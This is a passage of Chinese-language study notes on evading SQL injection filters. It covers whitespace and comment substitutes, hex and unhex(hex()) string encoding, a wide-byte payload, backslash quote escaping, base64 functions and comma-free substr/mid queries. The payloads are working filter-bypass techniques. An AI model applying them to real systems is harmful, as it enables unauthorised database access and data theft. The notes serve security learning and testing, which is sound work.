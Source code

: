 %09、%0a、%0d

括号

select(id)from(student);

反引号

select`id`from`student`;

基本如下

```python
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

### 单引号和字符串长度绕过

1.字符串的十六进制形式

'abc' 等价于 0x616263

\2. unhex()与hex()连用

'abc' 等价于unhex(hex(6e6+382179)); 可以用于绕过大数过滤（大数过滤：/\d{9}|0x[0-9a-f]{9}/i）

具体转换的步骤是：①abc转成16进制是616263 ②616263转十进制是6382179 ③用科学计数法表示6e6+382179 ④套上unhex(hex())，就是unhex(hex(6e6+382179))
![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339315-5319f89d-c619-4763-a2a6-00cfeaf7f8f5.png#averageHue=%23f9f9f8&id=M8ZGz&originHeight=352&originWidth=376&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339406-e1b0409c-f0c9-4704-b26f-83e4aa0a634d.png#averageHue=%23e9c984&id=AegAE&originHeight=409&originWidth=474&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

没有单引号没办法做SQL注入的参数逃逸

\1. 宽字节注入      aa%df%27

\2. 转义法

条件是：用户可以控制一前一后两个参数
方法是：前面的参数输入\转义掉单引号，后面参数逃逸出来
例如：select * from users where username = '' and password = 'and 1=1#'

编码的话还可以用

```python
SELECT TO_BASE64((SELECT USER()))
SELECT FROM_BASE64(TO_BASE64((SELECT USER())))
```

### 逗号绕过

使用from   xxx   for  xxx

```python
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join的别名绕过
